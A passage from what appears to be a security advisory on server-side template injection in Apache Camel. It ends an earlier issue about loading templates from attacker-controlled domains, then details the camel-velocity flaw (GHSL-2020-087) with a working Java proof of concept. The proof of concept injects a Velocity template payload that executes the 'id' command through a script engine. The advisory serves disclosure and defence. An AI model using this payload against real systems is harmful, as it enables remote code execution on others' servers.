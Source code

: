 <p>When trying to connect to an external URL such as <code class="language-plaintext highlighter-rouge">foobartest.free.beeceptor.com</code> I got the following error:</p>
<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>java.net.UnknownHostException: foobartest.free.beeceptor_en_ES.com
</code></pre></div></div>
<p>This seems to imply that it would also be possible to load the template content from an external URL as long as an attacker buys a domain that ends with a matching Locale string but we have not verified this.</p>

<h4 id="impact">Impact</h4>

<p>This issue leads to Remote Code Execution and Arbitrary File Disclosure.</p>

<h3 id="issue-2-server-side-template-injection-on-camel-velocity-component-ghsl-2020-087">Issue 2: Server-Side Template Injection on <code class="language-plaintext highlighter-rouge">camel-velocity</code> component (GHSL-2020-087).</h3>

<p>Similarly the <code class="language-plaintext highlighter-rouge">camel-velocity</code> component also allows dynamic templating by accepting and processing the <code class="language-plaintext highlighter-rouge">CamelVelocityTemplate</code> header. Given a Camel route using the <code class="language-plaintext highlighter-rouge">camel-velocity</code> component such as in:</p>

<div class="language-java highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="n">from</span><span class="o">(</span><span class="s">"activemq:velocity"</span><span class="o">)</span>
    <span class="o">.</span><span class="na">to</span><span class="o">(</span><span class="s">"velocity:template.vm"</span><span class="o">)</span>
    <span class="o">.</span><span class="na">to</span><span class="o">(</span><span class="s">"stream:out"</span><span class="o">);</span>
</code></pre></div></div>

<p>An attacker would be able to override the default <code class="language-plaintext highlighter-rouge">template.vm</code> template by sending a custom template in the <code class="language-plaintext highlighter-rouge">CamelVelocityTemplate</code> header:</p>

<div class="language-java highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="nc">System</span><span class="o">.</span><span class="na">out</span><span class="o">.</span><span class="na">println</span><span class="o">(</span><span class="s">"Attacking Velocity endpoint"</span><span class="o">);</span>
<span class="n">template</span><span class="o">.</span><span class="na">convertAndSend</span><span class="o">(</span><span class="s">"velocity"</span><span class="o">,</span> <span class="s">"FOO"</span><span class="o">,</span> <span class="k">new</span> <span class="nc">MessagePostProcessor</span><span class="o">()</span> <span class="o">{</span>
    <span class="kd">public</span> <span class="nc">Message</span> <span class="nf">postProcessMessage</span><span class="o">(</span><span class="nc">Message</span> <span class="n">message</span><span class="o">)</span> <span class="kd">throws</span> <span class="nc">JMSException</span> <span class="o">{</span>
        <span class="nc">String</span> <span class="n">payload</span> <span class="o">=</span> <span class="s">"VELOCITY ${camelContext.class.forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"js\").eval(\"var proc=new java.lang.ProcessBuilder('id');var is=proc.start().getInputStream(); var sc=new java.util.Scanner(is); var out=''; while (sc.hasNext()) {out += (sc.nextLine())};out\")}"</span><span class="o">;</span>
        <span class="n">message</span><span class="o">.</span><span class="na">setStringProperty</span><span class="o">(</span><span class="s">"CamelVelocityTemplate"</span><span class="o">,</span> <span class="n">payload</span><span class="o">);</span>
        <span class="k">return</span> <span class="n">message</span><span class="o">;</span>
    <span class="o">}</span>
<span class="o">});</span>
</code></pre></div></div>
